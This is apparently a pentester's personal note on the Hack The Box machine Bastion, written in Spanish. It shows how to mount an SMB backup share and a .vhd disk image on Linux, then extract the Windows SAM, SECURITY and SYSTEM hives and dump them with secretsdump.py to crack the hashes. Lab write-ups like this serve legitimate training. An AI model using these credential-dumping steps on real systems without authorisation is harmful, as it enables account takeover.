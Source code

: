 
## DESCRIPTION

En determinados casos tenemos que motar un fichero .vhd en nuestro linux, por ejemplo si enumerando nos encontramos un fichero backup:

![[Pasted image 20230413185141.png]]

#### Mas información
* https://0xdf.gitlab.io/2019/09/07/htb-bastion.html


## EXPLOITATION

### OPTION 1: MONTAR UN FICHERO PESADO

SI TIENES QUE DESCARGARLOD E SMB Y PESA MUCHO LO MEJOR ES MONTARLO: A Windows Image Backup is likely to be large and the transfer will be slow (as the note warns). Rather than try to copy it over, I’m going to mount this share to my filesystem.

```
mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
```

### OPTION 1: MONTAR UN FICHERO .VHD

```
guestmount --add 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
```

**!!NOTA IMPORTANTE!!** 
* IMPORTANTE SI TENEMOS MONTADO UN BACKUP DE UN WINDOWS COMPLETO → ENUMERAR LA SAM → Se encuentra en el directorio → /Windows/System32/config → Cuando accedemos aun equipo este directorio suele estar bloqueado pero si lo tenemos montado en nuestro linux → no suele haber problemas → utilizamos secretdump para dumpear la SAM → `secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL` → Crackeamos los hashes*

## MACHINES

* Hack The Box: BASTION

